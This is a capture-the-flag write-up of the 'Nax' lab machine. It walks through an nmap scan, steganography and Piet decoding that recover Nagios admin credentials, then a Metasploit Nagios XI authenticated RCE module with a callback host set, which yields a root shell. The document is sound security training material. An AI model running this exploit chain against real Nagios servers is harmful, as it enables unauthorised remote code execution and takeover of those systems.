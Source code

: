 ```yaml
---
layout: post
title: Nax writeup
date: 2022-06-18T19:22:24.527Z
---
```

# Nax writeup

After lunching the vm i started doing some enumeration, port scanning and fuzzing

```
# Nmap 7.80 scan initiated Sun Jun 19 16:46:08 2022 as: nmap -sC -sV -oN nmap/results -v nax.thm
Nmap scan report for nax.thm (10.10.55.121)
Host is up (0.37s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 62:1d:d9:88:01:77:0a:52:bb:59:f9:da:c1:a6:e3:cd (RSA)
|_  256 20:28:15:ef:13:c8:9f:b8:a7:0f:50:e6:2f:3b:1e:57 (ED25519)
25/tcp  open  smtp    Postfix smtpd
|_smtp-commands: ubuntu.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/ssl Apache httpd (SSL-only mode)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=192.168.85.153/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Issuer: commonName=192.168.85.153/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| tls-alpn: 
|_  http/1.1
```

i found 5 ports open, but the only interesting one here is port 80 which is the webserver, i also did some fuzzing with gobuster but it didn't find actually something useful and so i looked at the website itself

![](/src/images/uploads/9s.png)

nothing interesting except those periodic table elements where if you get the atomic values you will get this

```
47 80 73 51 84 46 80 78 103
```

which looks like ascii values and by using an online converter from ascii to text you will get `/PI3T.PNg` which is the answer for the sercret file 

by opening that image you will get this 

![](/src/images/uploads/9d.png)

download that image and check its exif data 

```
exiftool PI3T.PNg
```

and here you will find the owner of the image

looking at the image it looks like piet programming language which decoded can show probably interesting information

i installed [npiet](https://www.bertnase.de/npiet/) and then ran 

```
./npiet PI3T.ppm -e 1000
```

which gives `nagiosadmin%n3p3UQ&9BjLp4$7uhWdY` probably user and password

after doing a small reserach i found this interesting [exploit](https://www.exploit-db.com/exploits/48191) which requires user and password that we have, then start metasploit

```
msfconsole
```

```
Msf6> use exploit/linux/http/nagios_xi_authenticated_rce
Msf6> options
Msf6> set PASSWORD n3p3UQ&9BjLp4$7uhWdY
Msf6> set USERNAME nagiosadmin
Msf6> set RHOSTS nax.thm
Msf6> set LHOSTS YOUR_IP
Msf6> run
```

and after running the exploit you will get a root shell where you can get both the flags